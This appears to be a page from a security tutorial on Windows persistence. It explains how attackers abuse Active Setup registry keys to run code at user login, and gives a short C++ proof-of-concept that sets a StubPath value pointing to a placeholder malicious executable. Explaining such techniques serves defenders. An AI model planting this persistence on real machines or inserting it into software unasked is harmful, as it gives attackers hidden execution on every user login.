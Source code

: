 ## **Active setup**

Active Setup is a feature in Windows used primarily by system administrators to execute a script or application whenever a user logs into the system. It’s designed to set up user profiles and configure user-specific settings. However, this feature can be exploited for persistence by attackers, as it allows the execution of code each time a user logs in.

### **Understanding Active Setup for Persistence**

Active Setup works by checking registry keys under HKLM\SOFTWARE\Microsoft\Active Setup\Installed Components and HKCU\SOFTWARE\Microsoft\Active Setup\Installed Components. When a user logs in, Windows checks these keys to see if there are any setup commands that need to be run for that user. If a command has not been run for the current user profile, it executes the command and then marks it as completed.

Attackers can exploit this by adding their own keys and commands to the Active Setup registry keys. This ensures that their malicious code is executed for every user logging into the system.

### **Scenario of Active Setup Attacks**

- Create Malicious Executable: The attacker prepares an executable file with their malicious code.
- Modify Registry: The attacker adds a new key under the Active Setup registry keys with a command to execute their malicious executable.
- Execution on User Login: Each time a new user logs in, the system checks the Active Setup keys and executes the attacker’s code.

### **Sample Proof of Concept (PoC) Code in C++**

The following C++ example demonstrates how an attacker might programmatically add an entry to the Active Setup registry keys:

```
#include <windows.h>
#include <iostream>
int main() {
    HKEY hKey;
    const char* subkey = "SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\{Your-Unique-GUID}";
    // Open the registry key in HKLM
    if (RegOpenKeyEx(HKEY_LOCAL_MACHINE, subkey, 0, KEY_WRITE, &hKey) != ERROR_SUCCESS) {
        std::cerr << "Error opening registry key" << std::endl;
        return 1;
    }
    // Set the value for the component
    const char* value = "\"C:\\Path\\To\\Malicious\\Executable.exe\"";
    if (RegSetValueEx(hKey, "StubPath", 0, REG_SZ, (BYTE*)value, strlen(value) + 1) != ERROR_SUCCESS) {
        std::cerr << "Error setting registry value" << std::endl;
        RegCloseKey(hKey);
        return 1;
    }
    std::cout << "Active Setup registry key set successfully." << std::endl;
    // Close the registry key
    RegCloseKey(hKey);
    return 0;
}
```
